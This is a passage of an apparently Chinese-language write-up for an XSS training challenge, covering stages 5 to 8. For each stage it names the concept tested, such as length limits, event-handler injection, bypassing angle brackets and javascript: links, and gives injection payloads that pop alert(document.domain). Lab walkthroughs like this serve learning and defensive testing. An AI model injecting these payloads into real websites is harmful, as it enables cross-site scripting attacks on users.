 

### Stage #5

#### 考点：长度限制

#### 思考：

修改最大输入长度限制

**payload：**

```
"><script>alert(document.domain);</script>
```



### Stage #6

#### 考点：构造事件

#### 思考：

构造事件处理程序属性

**payload：**

```
" onmousemove="alert(document.domain)
" onmouseover=alert(document.domain) name="1
" onclick=alert(document.domain) id="a
```



### Stage #7

#### 考点：绕过<> ，构造事件

#### 思考：

于第6题类似，构建payload

**payload：**

```
" onclick=alert(document.domain)
```



### Stage #8

#### 考点：URL链接构造

#### 思考：

发现会生成一个链接，于是用javascript:伪协议，再点击生成的链接
